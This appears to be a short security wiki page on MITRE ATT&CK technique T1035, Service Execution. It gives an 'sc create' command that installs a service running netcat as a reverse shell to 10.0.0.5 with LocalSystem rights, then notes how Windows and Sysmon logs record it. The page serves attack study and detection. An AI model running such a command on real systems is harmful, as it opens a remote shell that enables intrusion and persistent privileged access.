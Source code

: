 ```yaml
---
description: 'Code Execution, Privilege Escalation'
---
```


# T1035: Service Execution

## Execution

Creating an evil service with a netcat reverse shell:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
C:\> sc create evilsvc binpath= "c:\tools\nc 10.0.0.5 443 -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""
[SC] CreateService SUCCESS
C:\> sc start evilsvc
```
{% endtab %}
{% endtabs %}

## Observations

The reverse shell lives under services.exe as expected:

![](../../.gitbook/assets/services-nc.png)

Windows security, application, Service Control Manager and sysmon logs provide some juicy details:

![](../../.gitbook/assets/services-logs.png)

![](../../.gitbook/assets/services-shell.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1035" %}

